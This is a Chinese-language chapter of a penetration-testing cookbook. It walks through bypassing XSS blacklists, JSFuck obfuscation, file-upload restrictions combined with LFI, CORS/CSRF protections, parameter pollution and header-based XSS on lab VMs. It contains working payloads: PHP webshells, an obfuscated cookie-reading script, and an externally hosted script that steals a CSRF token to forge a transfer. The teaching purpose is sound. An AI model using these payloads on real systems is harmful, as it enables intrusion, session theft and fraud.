# 绕过基本安全控制

本章将涵盖以下几个主题：

+   跨站脚本攻击中的基本输入验证绕过

+   利用混淆代码进行跨站脚本攻击

+   绕过文件上传限制

+   避免 Web 服务中的 CORS 限制

+   使用跨站脚本攻击绕过 CSRF 保护和 CORS 限制

+   利用 HTTP 参数污染

+   通过 HTTP 头利用漏洞

# 介绍

到目前为止，在本书中，我们已经识别并利用了在被认为是*低垂果实*的情况下的漏洞，也就是说，我们知道漏洞的存在，在利用它们时，我们没有遇到任何防护机制，或者没有被 Web 应用防火墙或类似的安全系统阻止。

在实际渗透测试中最常见的情况是，开发人员已经努力构建了一个强大且安全的应用程序，漏洞可能不容易发现，且可能已经完全或部分解决，因此它们要么不再出现在应用程序中，要么至少很难被找到和利用。对于这种情况，我们需要在我们的工具箱中拥有能够发现克服这些复杂情况的方法的工具，并能够识别和利用开发人员认为自己已经防止的漏洞，但他们的防护措施可能不够完善。

本章将讨论几种绕过保护和安全控制的方法，这些保护和控制并没有缓解漏洞，而是试图隐藏漏洞或使其利用更加复杂，这并不是解决安全问题的理想方式。

# 在跨站脚本攻击中的基本输入验证绕过

开发人员执行输入验证的最常见方法之一是通过在用户提供的信息中黑名单某些字符或词汇。此黑名单方法的主要缺点是，由于每天都会发现新的攻击向量，因此可能会错过一些本可以用于攻击的元素。

在这个例子中，我们将演示一些绕过黑名单验证弱实现的方法。

# 如何做到...

我们将从 DVWA 开始，使用我们脆弱的虚拟机，并将安全级别设置为中等。还需将 Burp Suite 设置为浏览器的代理：

1.  首先，让我们看看在这个安全级别下，脆弱页面的行为。正如以下截图所示，当尝试注入脚本代码时，script 标签从输出中被移除：



1.  将请求发送到重放器并再次发出。正如下一张截图所示，打开的 script 标签已被移除：



1.  我们可以尝试多种方法来克服这个障碍。实现这种保护时，开发人员常犯的一个错误是，在验证和清理输入时进行大小写敏感的比较。再次发送请求，但这次更改`script`这个词的大小写，使用`sCriPt`：



1.  根据 Repeater 中的输出，以及下图所示的内容，这一改变足以利用**跨站脚本攻击**（**XSS**）漏洞：



# 它是如何工作的……

在这个配方中，我们演示了一种非常简单的方式来绕过一个实现不佳的安全控制，因为大多数编程语言在比较字符串时是区分大小写的。一个简单的黑名单不足以防止注入攻击。不幸的是，渗透测试人员在现实应用中看到这些类型的实现并不少见。

# 还有更多……

有许多方式可以通过大小写、编码以及多种不同的 HTML 标签和事件来触发 XSS 漏洞，因此几乎不可能创建一个全面的禁止使用的单词或字符列表。我们在这次练习中的一些其他替代方法如下：

+   使用不同的 HTML 标签，例如`&lt;img>`、`&lt;video>`和`&lt;div>`，并将代码注入其`src`参数或其事件处理程序中，如`onload`、`onerror`和`onmouseover`。

+   嵌套多个`<script>`标签，例如`&lt;scr&lt;script>ipt>`。这样，如果`&lt;script>`标签被删除，那么删除后会形成另一个标签。

+   尝试对整个有效载荷或其中的某些部分使用不同的编码；例如，我们可以将`&lt;script>`进行 URL 编码为`%3c%73%63%72%69%70%74%3e`。

一个更全面的验证和过滤绕过列表可以在[`www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet`](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)找到。

# 利用混淆代码进行跨站脚本攻击

在前面的配方中，我们面对了一种过滤机制，该机制移除了开头的`<script>`标签。由于`&lt;script>`并不是 XSS 攻击中唯一可能使用的标签，并且 JavaScript 代码在大小写和结构上比 HTML 更具一致性，一些过滤器试图限制使用属于 JavaScript 代码的单词和字符，例如 alert、cookie 和 document。

在这个配方中，我们将探索一种替代方法，也许是有些极端的，通过使用一种所谓的神秘语言——JSFuck（[`JSFuck.com`](http://JSFuck.com)）来进行代码混淆。

# 如何操作……

在这个配方中，我们将使用由 Magical Code Injection Rainbow 提供的原型功能，这是我们 OWASP BWA 脆弱虚拟机中包含的一个应用程序：

1.  首先，进入应用程序并从菜单中选择 XSSmh，进入 XSS 沙箱。在这里，我们可以设置一个易受 XSS 攻击的字段，并使用自定义类型的清理。

1.  在我们的例子中，我们将使用最后的清理级别：不区分大小写并重复删除黑名单项，匹配关键字。

1.  在“清理参数”中，我们需要输入黑名单词汇和字符——添加 `alert,document,cookie,href,location,and src`。这样会大大限制可能利用该应用程序的攻击者的操作范围。

1.  输入清理部分应该如下所示：


1.  现在，测试一个常见的注入，它在警告消息中显示 cookie，如下所示：



如你所见，未显示任何警告。这是因为我们配置的清理选项。

1.  为了绕过这个保护机制，我们需要找到一种方法来混淆代码，使其通过验证机制的审查，同时仍然被浏览器识别并执行。这时，JSFuck 就派上用场了。在你的本地主机上，导航到 [`jsfuck.com`](http://jsfuck.com)。该网站描述了这个语言以及它如何利用仅有的六个字符来生成 JavaScript 代码，分别是 *[*, *]*, *(*, *)*, *+*, 和 *!*。

1.  你还会发现这个网站有一个表单，可以将普通的 JavaScript 转换为 JSFuck 表示法；试着将 `alert(document.cookie);` 转换成 JSFuck，这是我们尝试执行的有效载荷。正如下面的截图所示，这个简单的字符串会生成一个几乎 13,000 个字符的代码，这对于在 `GET` 请求中发送来说太多了。我们需要找到一种方法来减少这个数量：



1.  我们可以做的是，不混淆整个有效载荷，而仅仅混淆那些需要绕过清理的部分。确保没有设置 Eval Source 选项，并混淆以下字符串：

    +   `ert`

    +   `d`

    +   `e`

1.  现在，我们将把混淆后的代码整合成一个完整的有效载荷。由于 JSFuck 输出被 JavaScript 引擎作为文本解析，我们需要使用 `eval` 函数来执行它。最终的有效载荷如下：

```
&lt;script>eval("al"+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+"('XSS '+"+([][[]]+[])[!+[]+!+[]]+"ocument.cooki"+(!![]+[])[!+[]+!+[]+!+[]]+")");&lt;/script>
```

1.  将有效载荷插入到注入字符串中，然后点击 **Inject**。代码应该如下所示执行：



# 它是如何工作的...

通过混淆有效载荷，我们能够绕过基于词汇和字符识别的安全控制。我们选择使用 JSFuck 语言来混淆代码，因为它实际上是 JavaScript。

JSFuck 通过操作布尔值和预定义常量来混淆代码，从而形成可打印字符。例如，要获取字符 `a`：

1.  `a` 是 `false` 的第二个字母，也可以表示为数组的第二个元素：false[1]。

1.  这也可以表示为 `(false+[])[1]`。

1.  此外，`false` 作为布尔值，是空数组 `![]` 的否定。所以，上面的表达式也可以写作 `(![]+[])[1]`。

1.  数字 `1` 也可以表示为 `+true`，这会得到 `(![]+[])[+true]`。

1.  最后，我们都知道 true 是 false 的相反，那么 `!![]`，我们的最终字符串是 `(![]+[])[+!![]]`。

我们只对每个被列入黑名单的单词的几个字母进行了混淆，因此我们没有做一个太大的有效负载，但也成功绕过了它。由于这个混淆生成了一个字符串，我们需要使用 `eval` 来指示解释器将该字符串作为可执行代码处理。

# 绕过文件上传限制

在前面的章节中，我们已经了解了如何避免一些文件上传中的限制。在本节中，我们将面临一个更完整、虽然仍然不足够的验证，并串联另一个漏洞，以便首先将 Webshell 上传到服务器，然后将其移动到一个可以执行的目录中。

# 如何操作…

对于本节，我们需要在我们的易受攻击虚拟机中运行 Mutillidae II，并将其设置为安全级别，使用菜单中的切换安全选项进行设置，并使用 Burp Suite 作为代理：

1.  在 Mutillidae II 的菜单中，进入 Others | Unrestricted File Upload | File Upload。

1.  第一次测试将尝试上传一个 PHP Webshell。你可以使用我们在前几章中使用的 Webshell，或者自己制作一个。如下所示，上传会失败，我们将收到失败原因的详细描述：



从上面的响应中，我们可以推断出文件被上传到服务器的 `/tmp` 目录，首先使用一个随机生成的文件名，然后检查文件的扩展名和类型，如果允许，文件将被重命名为其原始名称。因此，为了上传并执行一个 PHP 文件（一个 Webshell），我们需要更改其扩展名和请求中的 `Content-Type` 头。

1.  让我们首先尝试上传一个脚本，该脚本将告诉我们 Web 服务器的工作目录（或文档根目录），这样我们就知道上传后该将 Webshell 复制到哪里。创建一个包含以下代码的文件 `sf-info.php`：

```
&lt;?
system('pwd');
system('ls');
?>
```

1.  通过拦截上传请求，并将 `filename` 参数中的扩展名更改为 `.jpg`，以及将 `Content-Type` 更改为 `image/jpeg`，按如下方式上传：



1.  现在，转到 BurpSuite 的 Proxy History 并将任何 `GET` 请求发送到 Mutillidae 的 Repeater。我们将利用这个功能，通过利用本地文件包含漏洞来执行我们最近上传的文件。

1.  在 **Repeater** 中，将 URL 中 `page` 参数的值替换为 `../../../../tmp/sf-info.jpg`，然后发送请求。结果，如下图所示，将告诉我们 Web 服务器的工作目录以及该目录的内容：



1.  现在，让我们创建 Webshell 代码，并将以下代码放入一个名为 `webshell.php` 的文件中：

```
&lt;?
system($_GET['cmd']);
echo '&lt;p>Type a command: &lt;form method="GET">&lt;input type="text" name="cmd">&lt;/form>&lt;/p>';
?>
```

1.  上传文件，并按如下方式更改其扩展名和类型：



现在的问题是如何通过 Web Shell 执行命令。我们不能直接调用它，因为它存储在`/tmp`目录下，浏览器无法直接访问；我们可能能够利用文件包含漏洞，但由于 Web Shell 的代码会与包含脚本（`index.php`）的代码结合使用，因此我们依赖于该脚本不会对提供的参数进行任何过滤或修改。为了解决这些问题，我们将向服务器上传另一个文件，该文件将 Web Shell 重命名为 `.php` 并将其移动到 Web 根目录。

1.  将上传`sf-info.php`的请求发送到重放器。

1.  将文件名更改为`rename.jpg`，并调整`Content-Type`。

1.  将文件内容替换为以下内容：

```
&lt;?
system('cp /tmp/webshell.jpg /owaspbwa/mutillidae-git/webshell.php');
system('ls');
?>
```

1.  以下截图显示了它应该呈现的样子：



1.  正如我们在`sf-info.jpg`中所做的，利用 LFI 执行`rename.jpg`，如下图所示：



1.  现在，我们的 Web Shell 应该位于应用程序的根目录中。访问`http://192.168.56.11/mutillidae/webshell.php`。以下截图展示了通过它执行系统命令的过程：


# 它是如何工作的...

在这个教程中，我们找到了一种绕过文件上传页面限制的方法，从而将恶意代码上传到服务器。然而，由于这些限制，上传的文件不能直接由攻击者执行，因为它们必须作为图片上传，并且浏览器和服务器会将其视为图片处理。

我们使用了本地文件包含（Local File Inclusion，LFI）漏洞来执行一些上传的文件。这可以作为绕过文件类型限制的一种方法，但无法实现更复杂的功能，如 Web Shell。首先，我们执行命令以了解服务器的内部设置，并发现存储可执行代码的目录。

一旦我们了解了内部文件系统，我们上传了我们的 Web Shell，并添加了第二个脚本将其复制到 Web 根目录，这样我们就可以直接从浏览器调用它。

# 绕过 Web 服务中的 CORS 限制

**跨域资源共享**（**CORS**）是一组配置在服务器端的策略，告诉浏览器服务器是否允许来自外部站点的脚本代码生成的请求（跨域请求），以及允许哪些站点，或者是否只接受来自其自身托管的页面生成的请求（同源）。正确配置的 CORS 策略有助于防止跨站请求伪造（CSRF）攻击，虽然它并不足以完全防止，但可以阻止一些攻击向量。

在本教程中，我们将配置一个不允许跨域请求的 Web 服务，并创建一个能够在这种请求下伪造请求的页面。

# 准备工作

对于这个教程，我们将使用“Damn Vulnerable Web Services”。它可以从其 GitHub 地址 [`github.com/snoopysecurity/dvws`](https://github.com/snoopysecurity/dvws) 下载。下载最新版本并将其复制到 OWASP BWA 虚拟机中（或者直接下载到虚拟机）；我们将把代码放在 `/var/www/dvwebservices/` 目录下。

这段代码是一个脆弱的 Web 服务集合，目的是进行安全性测试；我们将修改其中一个服务，使其不那么脆弱。使用文本编辑器打开 `/var/www/dvwebservices/vulnerabilities/cors/server.php` 文件；可以使用默认包含在虚拟机中的 nano：`nano /var/www/dvwebservices/vulnerabilities/cors/server.php`

查找所有设置了 `Access-Control-Allow-Origin` 头的实例，并将每一行注释掉，具体操作如下一个截图所示：


我们还需要添加几行代码，以正确处理请求参数；最终代码应该如下所示：

```
&lt;?php
$dictionary = array('secretword:one' => 'Kag8lzk0nM', 'secretword:two' => 'U6pIy6w0yX', 'secretword:three' => '9c0v73UWkj');
if ($_SERVER['REQUEST_METHOD'] == 'OPTIONS') {
  if (isset($_SERVER['HTTP_ACCESS_CONTROL_REQUEST_METHOD']) && $_SERVER['HTTP_ACCESS_CONTROL_REQUEST_METHOD'] == 'POST') {
  //header('Access-Control-Allow-Origin: *');
  header('Access-Control-Allow-Headers: X-Requested-With, content-type, access-control-allow-origin, access-control-allow-methods, access-control-allow-headers');
  }
  exit;
}

$obj = (object)$_POST;
if(!isset($_POST["searchterm"]))
{
  $json = file_get_contents('php://input');
  $obj = json_decode($json);
}

if (array_key_exists($obj->searchterm, $dictionary)) {
 $response = json_encode(array('result' => 1, 'secretword' => $dictionary[$obj->searchterm]));
}
else {
 $response = json_encode(array('result' => 0, 'secretword' => 'Not Found'));
}
header('Content-type: application/json');
if (isset($_SERVER['HTTP_ORIGIN'])) {
 //header("Access-Control-Allow-Origin: {$_SERVER['HTTP_ORIGIN']}");
 header('Access-Control-Allow-Credentials: true');
} else {
 //header('Access-Control-Allow-Origin: *');
 header('Access-Control-Allow-Credentials: true');
}
echo $response;
?>
```

# 如何操作...

一旦代码部署到服务器，我们可以在 `http://192.168.56.11/dvwebservices/vulnerabilities/cors/client.php` 浏览 Web 服务客户端，并开始我们的练习。记得使用如 Burp Suite 或 ZAP 这样的代理工具记录所有请求：

1.  首先，让我们看一下正常操作，浏览到 `client.php`。它会显示由服务器生成的密钥词。

1.  如果我们查看代理工具 Burp Suite，在这种情况下，我们可以看到客户端向 `server.php` 发出了 `POST` 请求。此请求中有一些需要注意的事项，以下截图做了示例：

    +   `Content-Type` 头是 `application/json`，这意味着请求体采用 JSON 格式。

    +   请求的主体不是标准的 HTTP 请求格式（`param1=value&param2=value`），而是按照头部所规定的 JSON 对象定义。



1.  假设我们想对该请求进行 CSRF 攻击。如果我们希望 HTML 页面以 JSON 格式发出请求，就不能使用 HTML 表单；我们需要使用 JavaScript。创建一个 HTML 文件，例如 `CORS-json-request.html`，并使用以下代码：

```
&lt;html>
&lt;script>
function submit_request()
{
  xmlhttp=new XMLHttpRequest();
  xmlhttp.open("POST","http://192.168.56.11/dvwebservices/vulnerabilities/cors/server.php", true);
  xmlhttp.onreadystatechange=function() 
  {
    if(xmlhttp.readyState==4 && xmlhttp.status == 200 )
    {
      document.write(xmlhttp.responseText);
    }
  }
  xmlhttp.send('{"searchterm":"secretword:one"}');
}
&lt;/script>
&lt;body>
&lt;input type="button" onclick="submit_request()" value="Submit request">
&lt;/body>
&lt;/html>
```

1.  上述代码复制了 `client.php` 发出的请求。在浏览器中打开它并点击“提交请求”。什么也不会发生，接下来的截图显示了原因：


根据前述错误，请求被浏览器阻止，因为服务器没有在其 `Access-Control-Allow-Origin` 头中指定允许的来源。发生这种情况是因为我们正在从服务器外部的来源请求一个资源（`server.php`），该资源是我们 Kali 虚拟机中的本地文件。

1.  绕过这一限制的最简单方法是创建一个 HTML 页面，该页面发送与 HTML 表单生成的 `POST` 请求相同的参数，因为浏览器在提交表单时不会检查 CORS 策略。创建另一个 HTML 文件，`CORS-form-request.html`，其内容如下：

```
&lt;html>
&lt;body>
&lt;form method="POST" action="http://192.168.56.11/dvwebservices/vulnerabilities/cors/server.php">
Search term: &lt;input type="text" name="searchterm" value="secretword:one">
&lt;input type="submit" value="Submit form">
&lt;/form>
&lt;/body>
&lt;/html>
```

浏览器在提交 HTML 表单时不会检查 CORS 策略；然而，表单中只能使用 `GET` 和 `POST` 方法，这就排除了 Web 服务中常见的其他方法，如 `PUT` 和 `DELETE`。

1.  在浏览器中加载 `CORS-form-request.html`，它应该如下所示：


1.  点击提交表单请求，并查看服务器如何响应一个包含秘密词的 JSON 对象：


1.  在 Burp Suite 中检查请求并验证 `Content-Type` 头是否为 `application/x-www-form-urlencoded`。

# 它是如何工作的...

本示例的测试应用程序是一个 Web 页面（`client.php`），它使用 `REST` Web 服务（`server.php`）来获取一个秘密词。我们尝试使用本地系统中的 Web 页面执行 CSRF 攻击，但失败了，因为服务器没有定义 CORS 策略，浏览器默认拒绝跨源请求。

然后我们创建了一个 HTML 表单，发送与 JavaScript 请求相同的参数，但以 HTML 表单格式发送，并且成功了。Web 服务接收多种格式的信息（如 XML、JSON 或 HTML 表单格式）并不罕见，因为它们旨在与许多不同的应用程序进行接口；然而，这种开放性可能会使 Web 服务面临攻击，特别是在没有正确处理 CSRF 等漏洞时。

# 使用跨站脚本（Cross-Site Scripting）绕过 CSRF 保护和 CORS 限制

作为渗透测试人员，我们在向客户或开发者描述 XSS 时，通常会关注其篡改和钓鱼/信息窃取的影响，而忽略了 XSS 攻击者可以利用受害者的会话伪造请求，执行受害者在应用程序内可以执行的任何操作这一点。

在这个示例中，我们将使用 XSS 攻击来伪造一个请求，该请求带有一个防 CSRF token。

# 如何操作...

对于这个示例，我们将在 bee-box 中使用 bWApp 应用程序，示例中的 URL 为 `http://192.168.56.13/bWapp`，并将安全级别设置为中等。

1.  登录到 bWApp 后，转到漏洞“跨站请求伪造（转账金额）”。

1.  输入一个账户号码和金额，点击转账按钮。

1.  让我们在 Burp Suite 中分析以下请求。所有参数都是通过 `GET` 请求发送的；通过查看 URL 中包含的 `token` 参数，我们可以推测存在 CSRF 保护：


1.  我们将尝试利用一个 XSS 漏洞，并利用它触发转账请求。为此，我们首先需要找到客户端存储令牌的位置，以便提取它。查看响应并寻找一个名称为`token`的输入标签，并记录下`id`参数。下图显示它是表单中的一个隐藏参数：



1.  接下来，我们需要证明存在可利用的 XSS 漏洞，因此转到漏洞**XSS-反射型（GET）**并尝试利用它。如以下截图所示，它是可利用的：



1.  我们将利用这个 XSS 漏洞加载一个托管在我们控制的服务器上的 JavaScript 文件，在本次练习中是我们的 Kali Linux 虚拟机。创建一个名为`forcetransfer.js`的文件，包含以下代码：

```
xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET","http://192.168.56.13/bWAPP/csrf_2.php", true);
xmlhttp.onreadystatechange=function() 
{
  if(xmlhttp.readyState==4 && xmlhttp.status == 200 )
  {
    var parser = new DOMParser();

    var responseDoc = parser.parseFromString (xmlhttp.responseText, "text/html");

    var token=responseDoc.getElementById('token').value;
    var URL="http://192.168.56.13/bWAPP/csrf_2.php?account=123-45678-90&amount=100&token=" + token + "&action=transfer"

    xmlhttp2=new XMLHttpRequest();
    xmlhttp2.open("GET",URL, true);
    xmlhttp2.send();
  }
}
xmlhttp.send();
```

1.  启动 Kali Linux 中的 Apache web 服务器，并将文件移动到网站根目录（默认路径为`*/var/www/html*`）。

1.  现在，利用 XSS 设置，将恶意文件作为脚本标签的来源。在登录到 bWApp 的情况下，打开新标签页，访问`http://192.168.56.13/bWAPP/xss_get.php?firstname=test**%3Cscript+src%3Dhttp%3A%2F%2F192.168.56.10%2Fforce-transfer.js%3E%3C%2Fscript%3E**&lastname=asd&form=submit`。XSS 有效载荷部分加粗显示。

1.  脚本会成功加载并执行。为了查看实际发生了什么，查看下图所示的 Burp Suite 代理历史记录：



首先，进行 XSS 攻击，然后加载我们的恶意文件`forcetransfer.js`，它调用`csrf_2.php`，不带任何参数。这时，我们的脚本获取了反 CSRF 令牌，用它发送一个新的请求到`csrf_2.php`，这次带上了所有必要的参数来进行转账，成功了。

# 它是如何工作的...

对于这个操作，我们首先识别了一个请求，虽然使用了唯一的令牌进行了有效的保护，但我们仍然希望利用它。我们还发现同一域（或应用）在其他页面存在 XSS 漏洞。

通过利用 XSS 漏洞，我们能够加载托管在目标域外的脚本代码，并首先提取令牌，然后伪造一个包含合法反 CSRF 保护的请求。

我们使用的脚本代码通过 JavaScript 向我们想要利用的页面发送请求。一旦服务器返回响应（`if(xmlhttp.readyState==4 && xmlhttp.status == 200 )`），它会处理响应并提取令牌（`var token=responseDoc.getElementById('token').value;`）。这就是为什么我们在分析原始响应并检测令牌时需要记录下`id`参数。提取到下一个有效反 CSRF 令牌后，创建并发送一个新请求；这个请求包含攻击者希望设置的`account`和`amount`值以及之前提取的令牌。

# 利用 HTTP 参数污染

**HTTP 参数污染**（**HPP**）攻击发生在 HTTP 参数在同一请求中多次重复，且服务器以不同方式处理每个实例，从而导致应用程序出现意外行为。

在这个教程中，我们将演示如何利用 HPP，并解释它如何被用来绕过某些安全控制。

# 如何操作...

对于这个教程，我们将再次使用 bWApp，因为它有一个非常具有示范性的 HPP 示例：

1.  登录到我们的易受攻击虚拟机中的 bWApp，进入 HPP（`http://192.168.56.11/bWAPP/hpp-1.php`）。

1.  先使用正常流程；有一个表单要求填写名字。提交名字后，它要求用户为一部电影投票，最后显示用户的投票结果。

1.  请注意，所有参数（`movie`、`name` 和 `action`）都出现在最后一步的 URL 中。让我们在 URL 的末尾添加一个不同值的第二个电影参数，如下图所示：



看起来服务器只会处理传递给参数的最后一个值。另外，请注意，`name`参数必须通过脚本添加到请求中，因为我们只在第一步中引入了它。

1.  为了使攻击向量更加逼真，我们将尝试强制投票总是投给电影编号 2，《钢铁侠》，因为*托尼·斯塔克每次都想获胜*。

1.  回到第一步，并将以下内容作为名字引入：`test2&movie=2;` 我们在名字后面注入了电影参数。提交名字后，下一步应该会显示如下内容：



1.  投票给任何电影，但不要投给《钢铁侠》。如下面的截图所示，结果会显示你实际上投票给了《钢铁侠》。



# 它是如何工作的...

在这个教程中，我们看到在单一请求中拥有多个相同的参数实例如何影响应用程序处理它的方式。此情况的处理方式取决于处理请求的 Web 服务器；以下是一些示例：

+   **Apache/PHP**：只处理最后一个出现的值

+   **IBM HTTP Server/JSP**：只处理第一个出现的值

+   **IIS/ASP.NET**：所有值都会被连接起来，用逗号分隔

这种缺乏标准化的行为可以在特定情况下被用来绕过保护机制，如**Web 应用防火墙**（**WAF**）或**入侵检测系统**（**IDS**）。想象一下一个并不罕见的企业场景，一个基于 Tomcat 的应用程序运行在 IBM 服务器上，并受到基于 Apache 的 WAF 的保护；如果我们发送一个包含多个易受攻击参数实例的恶意请求，并在第一个实例中放入注入字符串，在最后一个实例中放入有效值，WAF 会认为请求是有效的，而 Web 服务器将处理第一个值，这是一个恶意注入。

HPP 还可能允许在某些情况下绕过应用程序中的一些控制，当不同的实例被发送到请求的不同部分，如 URL、头部或主体，并且由于糟糕的编程实践，应用程序中的不同方法可能从整个请求或其特定部分获取参数的值。例如，在 PHP 中，我们可以从请求的任何部分（URL、主体或 cookie）获取参数，而不需要知道哪个部分使用了 `$_REQUEST[]` 数组，或者可以分别从专门处理 URL 或主体的数组 `$_GET[]` 和 `$_POST[]` 获取相同的值。所以，如果 `$_REQUEST[]` 被用来查找一个应该通过 `POST` 请求发送的值，但该参数在 URL 中被污染，结果可能会包含 URL 中的参数，而不是实际需要的参数。

有关此漏洞的更多信息和一些示例，请访问专门介绍该漏洞的 OWASP 页面，[`www.owasp.org/index.php/Testing_for_HTTP_Parameter_pollution_(OTG-INPVAL-004)`](https://www.owasp.org/index.php/Testing_for_HTTP_Parameter_pollution_(OTG-INPVAL-004))。

# 通过 HTTP 头部利用漏洞

当涉及到输入验证和清理时，一些开发人员关注 URL 和主体参数，却忽略了整个请求可以在客户端被篡改，允许恶意有效负载被包含在 cookies 和头部值中。

在这个例子中，我们将识别并利用一个漏洞，该漏洞发生在一个在响应中反射的头部值。

# 如何操作...

我们现在回到 Mutillidae。这次，我们将使用 OWASP 2013 | A1 - 注入（SQL）| 绕过认证 | 登录练习：

1.  首先，发送一个包含任何不存在的用户名和密码的请求，以便登录失败。

1.  将请求发送到 Burp Suite 的 Repeater，并提交以便我们可以获取参考响应。

1.  进入 Repeater 后，我们将在 User-Agent 头部测试 SQL 注入向量，并在头部值后添加 `'+and+'1'='`。

1.  如果我们比较两个请求的响应，会发现包含注入的那个比原始响应大了几个字节，如下截图所示：



1.  为了简化发现两次响应之间到底发生了什么变化的过程，可以将它们都发送到 Burp Suite 的 **Comparer**（右键点击响应并从菜单中选择“发送到 Comparer”），然后进入 **Comparer** 标签，你将看到类似这样的内容：



1.  点击 **Words**，因为我们要比较文本，找出其中变化的单词。

1.  在比较对话框中，选择右下角的“同步视图”复选框，寻找被高亮显示的差异。一些比较明显的东西，比如服务器的日期，肯定会有所不同。我们要找的是与我们注入的有效负载相关的差异。下一张截图展示了一个相关的差异。



所以，我们在 User-Agent 头部的负载被服务器直接反射了。这可能意味着该头部存在 XSS 漏洞，让我们来试试。

1.  返回浏览器并发送另一个登录尝试，但这次在 Burp Suite 中拦截请求。

1.  通过添加`&lt;img src=X onerror="alert('XSS')">`来修改 User-Agent 头部。接下来的截图展示了一个示例：



1.  提交请求后，负载将按以下方式执行：



# 它是如何工作的...

在这个示例中，我们在登录表单中测试 SQL 注入，但通过分析服务器的响应，我们注意到 User-Agent 头部被反射回来了，这就作为了可能存在 XSS 漏洞的指示。接着，我们成功地通过将`&lt;IMG>`标签添加到头部来利用了这个 XSS 漏洞。

头部值，尤其是 User-Agent，通常会存储在应用程序和 Web 服务器日志中，这导致通过这些头部发送的负载不会直接由目标应用程序处理，而是由 SIEM（安全信息和事件管理）系统以及其他日志分析器和聚合器处理，这些系统本身也可能存在漏洞。
